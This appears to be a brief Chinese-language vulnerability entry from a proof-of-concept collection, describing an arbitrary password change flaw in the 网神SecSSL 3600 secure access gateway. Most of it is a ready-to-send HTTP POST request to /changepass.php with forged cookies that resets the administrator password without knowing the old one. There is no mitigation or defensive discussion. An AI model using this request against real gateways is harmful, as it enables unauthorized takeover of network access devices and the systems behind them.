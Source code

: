 #### 影响范围

网神SecSSL 3600

#### 漏洞概述

网神SecSSL 3600安全接入网关系统任意密码修改

#### 漏洞复现

漏洞POC：

```
POST /changepass.php?type=2 
Cookie: admin_id=1;gw_user_ticket=ffffffffffffffffffffffffffffffff;last_step_param={"this_name":"test","subAuthId":"1"}

old_pass=&password=Test123!@&repassword=Test123!@
```

